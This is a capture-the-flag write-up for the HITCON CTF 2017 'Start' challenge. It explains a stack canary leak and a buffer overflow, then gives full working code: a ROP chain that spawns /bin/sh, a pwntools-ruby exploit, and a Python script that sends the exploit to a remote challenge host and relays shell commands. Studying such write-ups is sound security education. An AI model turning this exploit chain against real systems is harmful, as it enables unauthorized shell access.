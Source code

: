 ```yaml
---
title: Hitcon CTF 2017 - Start
date: '2017-11-06'
lastmod: '2019-04-07T13:46:27+02:00'
categories:
- ctf_hitcon2017
- writeup
- hitcon2017
tags:
- exploitation
authors:
- andreafioraldi
---
```


The given binary is static.

Checksec:

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

The main procedure is so simple:

```cpp
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [rsp+0h] [rbp-20h]
  unsigned __int64 v5; // [rsp+18h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  alarm(10LL, argv, envp);
  setvbuf(stdin, 0LL, 2LL, 0LL);
  setvbuf(stdout, 0LL, 2LL, 0LL);
  while ( read(0LL, &v4, 217LL) != 0 && (unsigned int)strncmp(&v4, "exit\n", 5LL) )
    puts(&v4);
  return 0;
}
```

If we have a leak of the canary we can overwrite the return address with the buffer overflow.

Sending 24 characters and newline the puts call will print out the canary (overwriting the last byte, but it is always 0).

It's time to build a rop chain.

I used ROPGadget to generate it but it was too long.

So i changed the chain a bit:

```python
p += p64(0x00000000004017f7) # pop rsi ; ret
p += p64(0x00000000006cc080) # @ .data
p += p64(0x000000000047a6e6) # pop rax ; pop rdx ; pop rbx ; ret
p += '/bin//sh'
p += p64(0x4141414141414141) # padding
p += p64(0x4141414141414141) # padding
p += p64(0x0000000000475fc1) # mov qword ptr [rsi], rax ; ret
p += p64(0x00000000004017f7) # pop rsi ; ret
p += p64(0x00000000006cc088) # @ .data + 8
p += p64(0x000000000042732f) # xor rax, rax ; ret
p += p64(0x0000000000475fc1) # mov qword ptr [rsi], rax ; ret
p += p64(0x00000000004005d5) # pop rdi ; ret
p += p64(0x00000000006cc080) # @ .data
p += p64(0x00000000004017f7) # pop rsi ; ret
p += p64(0x00000000006cc088) # @ .data + 8
p += p64(0x0000000000443776) # pop rdx ; ret
p += p64(0x00000000006cc088) # @ .data + 8
p += p64(0x000000000042740e) # add eax, 0x1d ; ret
p += p64(0x000000000042740e) # add eax, 0x1d ; ret
p += p64(0x0000000000468320) # add rax, 1 ; ret
p += p64(0x0000000000468e75) # syscall ; ret
```

Ok now we must build the exploit using pwntools-ruby:

```ruby
z = Sock.new '127.0.0.1', 31338;

#canary leak
z.sendline "A"*24 ;
z.recvline;
r = z.recvline;
canary = "\x00" + r[0..6];

#build payload
p = "a"*24 + canary + p64(0x6cc018); #0x6cc018 id rbp
p += p64(0x00000000004017f7);
p += p64(0x00000000006cc080);
p += p64(0x000000000047a6e6);
p += '/bin//sh';
p += p64(0x4141414141414141);
p += p64(0x4141414141414141);
p += p64(0x0000000000475fc1);
p += p64(0x00000000004017f7);
p += p64(0x00000000006cc088);
p += p64(0x000000000042732f);
p += p64(0x0000000000475fc1);
p += p64(0x00000000004005d5);
p += p64(0x00000000006cc080);
p += p64(0x00000000004017f7);
p += p64(0x00000000006cc088);
p += p64(0x0000000000443776);
p += p64(0x00000000006cc088);
p += p64(0x000000000042740e);
p += p64(0x000000000042740e);
p += p64(0x0000000000468320);
p += p64(0x0000000000468e75);
z.send p;
z.recvline;
z.sendline "exit"; #go to 'ret'

#send command to the shell
z.sendline("uname -a");
print z.recv(5000)
```

After testing it in localhost with socat, i wrote a python script that I used to send the ruby exploit:

```python
from pwn import *

def run(cmd):
    expl = '''z = Sock.new '127.0.0.1', 31338;z.sendline "A"*24 ;r = z.recvline;r = z.recvline;canary = "\x00" + r[0..6];p = "a"*24 + canary + p64(0x6cc018) ;p += p64(0x00000000004017f7);p += p64(0x00000000006cc080);p += p64(0x000000000047a6e6);p += '/bin//sh';p += p64(0x4141414141414141);p += p64(0x4141414141414141);p += p64(0x0000000000475fc1);p += p64(0x00000000004017f7);p += p64(0x00000000006cc088);p += p64(0x000000000042732f);p += p64(0x0000000000475fc1);p += p64(0x00000000004005d5);p += p64(0x00000000006cc080);p += p64(0x00000000004017f7);p += p64(0x00000000006cc088);p += p64(0x0000000000443776);p += p64(0x00000000006cc088);p += p64(0x000000000042740e);p += p64(0x000000000042740e);p += p64(0x0000000000468320);p += p64(0x0000000000468e75);z.send p;z.recvline;z.sendline "exit"; z.sendline("''' + cmd + '''"); print z.recv(5000)'''

    sh = remote("54.65.72.116", 31337)
    sh.recvuntil("> ")
    sh.sendline(expl)
    print sh.recvall()


c = raw_input("> ")
while c != "q":
    run(c)
    c = raw_input("> ")
```

Now you can navigate the filesystem and get the flag.
